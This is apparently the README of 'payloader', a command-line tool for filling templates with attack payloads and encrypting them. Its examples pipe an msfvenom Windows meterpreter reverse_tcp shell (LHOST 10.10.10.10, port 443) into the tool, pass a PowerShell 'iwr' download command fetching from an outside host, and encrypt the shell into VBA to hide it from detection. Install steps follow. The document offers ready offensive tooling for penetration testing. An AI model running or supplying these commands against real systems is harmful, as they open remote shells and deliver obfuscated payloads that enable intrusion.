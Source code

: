 # payloader

Generate payloads using a a simple cli interface for faster access to custom payloads.

payloader allow you to automate a whole lot of copy paste work to speed up that workflow inthe shell.

Inputs are substituted into custom templates and automate builds where possible. 

## Features

- Lightweight
- Cusom templates
- Payloads can be piped in and directly set.

Eg.

```
msfvenon -p windows/x64/meterpreter/reverse_tcp LPORT=443 LHOST=10.10.10.10 -f ps1 | payloader example.ps1 -f ps1 -o test
```

or

```bash
payloader example.ps1 -f ps1 -o test -p "iwr http://test.com/test -o test"
```

## Custom Encryption 

```bash
msfvenon -p windows/x64/meterpreter/reverse_tcp LPORT=443 LHOST=10.10.10.10 -f ps1 | payloader_encrypt --encryption ff --key 5 --lang vba< | payloader -f vba -o test
```


# Install

```bash
git clone https://github.com/desterhuizen/payloader.git
cd payloader
virtualenv .venv
ln -s $(realpath ./payloader.py) ~/.local/bin/payloader
ln -s $(realpath ./payloader_encrypt.py) ~/.local/bin/payloader_encrypt
ln -s $(realpath ./payloader_decrypt.py) ~/.local/bin/payloader_decrypt
git submodule add <YOUR PAYLOADS REPO> templates
git submodule init
```


